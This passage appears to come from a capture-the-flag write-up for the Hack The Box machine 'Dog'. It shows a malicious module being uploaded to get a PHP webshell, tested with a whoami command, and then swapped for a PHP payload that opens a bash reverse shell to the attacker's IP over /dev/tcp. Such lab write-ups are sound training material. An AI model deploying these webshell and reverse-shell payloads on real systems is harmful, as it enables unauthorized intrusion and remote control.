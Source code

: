 Let's compress the `poc` folder:

```bash
tar -czvf poc.tar.gz poc

poc/
poc/poc.php
poc/poc.info
```

And let's upload and install the compressed module:

![Dog-1741470266260.png](/assets/img/img_Dog/Dog-1741470266260.png)

Success!

![Dog-1741470235420.png](/assets/img/img_Dog/Dog-1741470235420.png)

We now have a webshell!

```bash
curl http://dog.htb/modules/poc/poc.php?cmd=whoami

www-data
```

Let's instead upload a `poc` with our reverse shell command:

```bash
cat poc/poc.php

<?php system("bash -c 'bash -i >& /dev/tcp/10.10.14.158/9001 0>&1'")?>
```
